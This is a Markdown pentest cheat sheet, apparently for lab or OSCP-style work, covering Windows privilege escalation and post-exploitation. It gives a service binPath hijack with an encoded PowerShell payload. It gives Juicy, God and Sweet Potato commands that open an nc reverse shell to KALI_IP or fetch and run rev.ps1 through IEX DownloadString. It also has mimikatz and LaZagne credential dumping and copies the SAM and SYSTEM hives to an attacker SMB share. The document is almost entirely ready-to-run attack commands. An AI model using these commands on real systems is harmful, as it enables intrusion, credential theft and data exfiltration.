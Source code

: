### PE with service all access
```powershell
sc qc SERVICE
sc config SERVICE binPath= "cmd.exe /c powershell.exe -enc BASE64_PAYLOAD"
```

### Windows SEImpersonate privilege exploit
[Juicy Potato](https://github.com/ohpe/juicy-potato)

[God Potato](https://github.com/BeichenDream/GodPotato)

[Sweet Potato](https://github.com/uknowsec/SweetPotato/blob/master/README.md)
```
# Juicy Potato
# remember to specify /c since we are passing in arguments to cmd.exe
juicy.exe  -l 12345 -p C:\Windows\system32\cmd.exe -a "/c c:\windows\Temp\nc.exe -e cmd.exe KALI_IP 4443" -t * -c "CLSID" 
#call a ps session
\juicy.exe  -l 12345 -p C:\Windows\system32\cmd.exe -a "/c powershell -ep bypass IEX(New-Object Net.WebClient).downloadString('http://KALI_IP/rev.ps1')" -c "CLSID"
#god potato
.\potato.exe -cmd "cmd /c powershell -ep bypass IEX(New-Object Net.WebClient).downloadString('http://KALI_IP/rev.ps1')"
#sweet potato
.\potato.exe -a "powershell.exe -ep bypass IEX(New-Object Net.WebClient).downloadString('http://KALI_IP/rev.ps1')"
```

### CVE 2021-3034 PwnKit exploit
[Python 3](https://github.com/joeammond/CVE-2021-4034/blob/main/CVE-2021-4034.py )

[Python 2](https://gist.github.com/Ayoub-2/9f52583daec92ba2d81b4c4b4cbfe902)  

[C/sh](https://github.com/ly4k/PwnKit )

### CVE 2021-3560 polkit exploit

[python3](https://github.com/Almorabea/Polkit-exploit)

[sh](https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation)  

## 5. Post Exploitation and AD-related Enumeration
There might be some valuable information for pivoting over an organizational network, post exploitation is necessary.
### Creds harvesting
#### Useful tools
[LaZagne.exe](https://github.com/AlessandroZ/LaZagne)

[mimikatz.exe](https://github.com/ParrotSec/mimikatz/tree/master)

[Rubeus](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries)

```powershell
.\LaZagne.exe all -oN
.\mimikatz.exe "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "exit" > .\sekurlsa_logonpassword.txt
.\mimikatz.exe "privilege::debug" "token::elevate" "lsadump::sam" "lsadump::secrets" "lsadump::cache" "exit" > lsadump_dump.txt
# Start impacket smbserver before run next
net use X: \\IP\share /user:USER PASS
reg save HKLM\SAM C:\users\public\SAM
reg save HKLM\SYSTEM C:\users\public\SYSTEM
copy .\*.txt X:\hashes\
copy C:\users\public\S*M X:\dump\
# Try ASREP roast and kerberoast inside a domain-joined computer
```